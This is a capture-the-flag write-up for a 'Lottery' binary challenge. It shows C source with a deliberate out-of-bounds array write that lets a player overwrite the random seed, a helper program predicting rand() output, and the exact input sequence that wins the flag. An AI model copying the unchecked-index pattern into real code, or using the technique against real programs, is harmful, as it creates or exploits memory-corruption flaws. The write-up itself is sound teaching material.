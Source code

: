 # Lottery
For this challenge we need to do a bit of reverse engineering to understand what the binary does and what values it uses.
This reverse engineering can be done with the help of a number of tools such as Ghidra, Binja, IDA or just plain old objdump.

However for this writeup we will simply look at the original source code. The code that we are interested in is the following:

```C
int nums[6] = {};
int guesses[6] = {};
unsigned long seed = 0;

void lotto() {
	srand(seed);
	for (int i = 0; i < 6; i++) {
		nums[i] = rand() % 3274;
	}

	int index;
	for (int i = 0; i < 6; i++) {
		puts("What index are you guessing?");
		index = getint();
		puts("What number is it?");
		guesses[index] = getint(); // Out of bounds write
	}

	for (int i = 0; i < 6; i++) {
		if (nums[i] != guesses[i]) {
			puts("You lost\n\n\n\n");
			return;
		}
	}
	win();
	return;
}

int main() {
    seed = time(NULL);
	int num;
	puts("How many lottery tickets do you want?");
	num = getint();
	for (int i = 0; i < num; i++) {
		lotto();
	}
	return 0;
}
```

Immediately we notice that we can play as many times as we want and we control the index that we are guessing. This means we can write out of bounds of the `guesses` array, allowing us to overwrite the `seed` variable. So if we play the lottery two times, the first time we overwrite the `seed` value and guess random numbers. The second time we know the value of `seed` so we can pre-calculate the randomly generated values, using the following `C` program:

```C
#include <stdio.h>

int main() {
    srand(1337);
    for (int i = 0; i < 6; i++) {
        printf("%d\n", rand() % 3274);
    }
    return 0;
}
```

Which gives us:
```
2931
890
979
221
596
1214
```

So if we input the following, we will get the flag:

```
What index are you guessing?
How many lottery tickets do you want?
2
What index are you guessing?
6
What number is it?
1337
What index are you guessing?
7
What number is it?
1337
What index are you guessing?
0
What number is it?
1337
What index are you guessing?
1
What number is it?
1337
What index are you guessing?
2
What number is it?
1337
What index are you guessing?
4
What number is it?
1337
You lost




What index are you guessing?
0   
What number is it?
2931
What index are you guessing?
1
What number is it?
890
What index are you guessing?
2
What number is it?
979
What index are you guessing?
3
What number is it?
221
What index are you guessing?
4
What number is it?
596
What index are you guessing?
5
What number is it?
1214
Here is your flag: gg{W1n_th3_j4ckp0t!}
```

